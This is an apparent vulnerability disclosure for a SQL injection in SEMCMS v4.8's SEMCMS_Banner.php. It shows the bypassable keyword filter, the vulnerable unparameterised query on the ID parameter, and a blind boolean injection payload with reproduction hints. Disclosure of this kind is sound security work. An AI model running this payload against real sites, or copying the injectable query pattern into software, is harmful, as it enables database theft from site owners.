 #  Semcms v4.8 SEMCMS_Banner.php SQL Injection

###  Introduction to Semcms

SEMCMS is a foreign trade website content management system (CMS) that supports multiple languages.

```
v4.8zip download link:http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip
```

###  Vulnerability description

A SQL injection vulnerability exists in the SEMCMS v4.8 backend. The vulnerability results from a lack of validation of externally entered SQL statements in the SEMCMS_Banner.php parameters ID and lgid. An attacker without an account could exploit this vulnerability to execute illegal SQL commands to obtain sensitive data from the database.

###  Vulnerability analysis

filter function：

```php
function inject_check_sql($sql_str) {

     return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
} 
function verify_str($str) { 
       if(inject_check_sql($str)) {
           exit('Sorry,You do this is wrong! (.-.)');
        } 
    return $str;
} 

```

The vulnerability exists on line 32 of SEMCMS_Banner.php:

![image-20240325125850992](https://github.com/ss122-0ss/semcms/assets/131983607/6827dde3-32ea-4718-a64d-af68ab781cd3)


```php
<?php
}elseif($type=="edit"){
    
 $row = mysqli_fetch_array($db_conn->query("SELECT * FROM sc_banner WHERE ID=".$_GET["ID"]));
 
?>
```



The vulnerability exists on line 69 of SEMCMS_Banner.php:

![image-20240325130124241](https://github.com/ss122-0ss/semcms/assets/131983607/3c28e528-52b9-4769-992a-ae5375649f22)


```
payload:-1 or ascii(substr(database(),1,1)) REGEXP char(94,49,48,57,36)
```

When the condition is true:

It should be noted that you need to add pictures before reproducing, otherwise no picture will be generated on the page no matter what the ID and lgid are equal to.
![图片5](https://github.com/ss122-0ss/semcms/assets/131983607/af2efc15-a4ab-49e7-8259-db17468ca54e)

![图片6](https://github.com/ss122-0ss/semcms/assets/131983607/08082be4-0917-4470-b433-c32899ff1db3)

![image-20240325130707386](https://github.com/ss122-0ss/semcms/assets/131983607/17aff268-9248-451f-b996-41386d8fbc54)

![image-20240325130725854](https://github.com/ss122-0ss/semcms/assets/131983607/424699af-1352-483e-b36d-01e07843c169)
